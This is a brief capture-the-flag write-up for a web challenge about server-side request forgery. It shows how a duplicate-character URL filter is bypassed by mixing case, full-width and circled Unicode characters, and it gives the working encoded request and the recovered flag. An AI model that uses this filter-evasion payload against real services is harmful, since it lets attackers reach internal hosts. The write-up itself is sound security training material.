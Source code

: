 # SSRFrog (Web)
SSRF challenge, the source tells us the flag is on `http://the.c0o0o0l-fl444g.server.internal`. We also see that our URL cannot contain any duplicate characters BEFORE being parsed.

The first thing to find is that the URL will be accepted even if the `//` are missing, which eases our burden a bit.

For the rest of the characters, we can use unicode characters considered equivalent to bypass these restrictions. These include different cases, circled letters/numbers, etc.

URL: `htTP:ⓣHe｡c⓪o０O0l-fL4④４g.sErvⓔR．inⓉｅⓡNaⓛ`

```
http://chall.ctf.bamboofox.tw:9453/?url=htTP:%E2%93%A3He%EF%BD%A1c%E2%93%AAo%EF%BC%90O0l-fL4%E2%91%A3%EF%BC%94g.sErv%E2%93%94R%EF%BC%8Ein%E2%93%89%EF%BD%85%E2%93%A1Na%E2%93%9B
flag{C0o0o0oL_baby_ssrf_trick}

```
